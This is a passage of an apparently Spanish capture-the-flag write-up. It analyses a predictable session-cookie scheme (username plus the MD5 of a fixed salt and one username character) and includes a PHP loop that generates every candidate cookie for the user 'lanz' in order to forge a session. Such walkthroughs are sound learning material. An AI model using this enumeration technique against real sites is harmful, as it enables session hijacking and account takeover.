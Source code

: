 Y si ejecutamos:

```html
Username: lanz
Max: 3
Seed: 3
Key: s4lTy_stR1nG_z(!528./9890
lanz23ccbc5fab73e561862271461cc6bedc
```

De esto podemos concluir que al final solo se nos pueden generar 4 tipos de `cookie`, ya que lo único que varía es el carácter y como nuestro nombre es de 4 pues solo pueden ser **4** 😇

Ahora, teniendo en cuenta esto, podemos iterar sobre el usuario **lanz** y ver que `cookies` se le generan y ver si alguna coincide con la que tenemos actualmente.

Démosle:

```php
<?php
    $username = "lanz";
    echo "Username: $username\n";
    
    #Toma el tamaño del username y le quita 1 (lanz (4)-1=3)
    $max = strlen($username) - 1;  
    echo "Max: $max\n\n";
    
    #Toma un numero (en este caso) entre 0 y 3 (0,1,2,3)
    //$seed = rand(0, $max);   

    for ($seed = 0; $seed < 4; $seed++) {
        echo "Seed: $seed\n";
        echo "Letra: $username[$seed]\n";
    
        #Con el numero anterior extrae un caracter del user name y lo junta con dos cadenas
        $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";  
        echo "Key: $key\n";
    
        #Pasa el valor de la cadena a md5 e imprime el username+md5
        $session_cookie = $username.md5($key);   
        //return $session_cookie;
        echo $session_cookie."\n\n";
    }
?>
```

Y su resultado:

```html
Username: lanz
Max: 3

Seed: 0
Letra: l
Key: s4lTy_stR1nG_l(!528./9890
lanz47200b180ccd6835d25d034eeb6e6390

Seed: 1
Letra: a
Key: s4lTy_stR1nG_a(!528./9890
lanz61ff9d4aaefe6bdf45681678ba89ff9d

Seed: 2
Letra: n
Key: s4lTy_stR1nG_n(!528./9890
lanze640846cb7f7acdbe36b4f006d12fb3e

Seed: 3
```